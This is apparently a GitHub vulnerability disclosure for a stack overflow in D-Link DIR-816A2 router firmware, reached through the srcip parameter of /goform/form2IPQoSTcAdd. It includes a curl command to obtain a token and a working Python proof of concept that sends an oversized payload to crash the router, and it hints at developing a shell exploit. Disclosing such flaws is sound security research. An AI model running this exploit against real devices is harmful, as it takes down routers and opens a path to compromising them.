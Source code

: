 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2IPQoSTcAdd.   The content obtained by srcip parameter is passed to V14, and then the content matched by V14 is formatted into the V12 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

## POC

Gets the token ID

```
curl http://ip/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = 'xxx'

url = 'http://192.168.0.1/goform/form2IPQoSTcAdd'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'srcip': payload,
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
